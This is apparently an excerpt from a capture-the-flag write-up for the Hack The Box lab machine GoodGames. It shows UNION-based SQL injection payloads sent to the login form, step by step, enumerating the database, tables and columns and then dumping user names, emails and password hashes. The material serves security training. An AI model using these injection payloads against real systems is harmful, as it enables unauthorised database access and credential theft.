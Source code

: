 This can be done manually too - check [HTB: GoodGames | 0xdf](https://0xdf.gitlab.io/2022/02/23/htb-goodgames.html) writeup

- Dump the full DB with `UNION` injection

```bash
POST /login HTTP/1.1
Host: 10.10.11.130
Content-Length: 59
Cache-Control: max-age=0
Origin: http://10.10.11.130
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en;q=0.9
Referer: http://10.10.11.130/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=' union select 1,2,3,database()-- -&password=Passw0rd

```

```bash
# Response
<h2 class="h4">Welcome main</h2>
```

- Get `main` database's tables

```bash
email=' union select 1,2,3,concat(table_name, ',') from information_schema.tables where table_schema = 'main'-- -&password=Passw0rd

<h2 class="h4">Welcome blog,blog_comments,user,</h2>
```

- Get `users`

```bash
email=' union select 1,2,3,concat(column_name, ',') from information_schema.columns where table_name = 'user'-- -&password=Passw0rd

<h2 class="h4">Welcome email,id,name,password,</h2>
```

```bash
email=' union select 1,2,3,concat(id, ':', name, ':', email, ':', password) from user-- -&password=Passw0rd

<h2 class="h4">Welcome 1:admin:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec2:syselement:syselement@syselement.com:47b7bfb65fa83ac9a71dcb0f6296bb6e</h2>
```
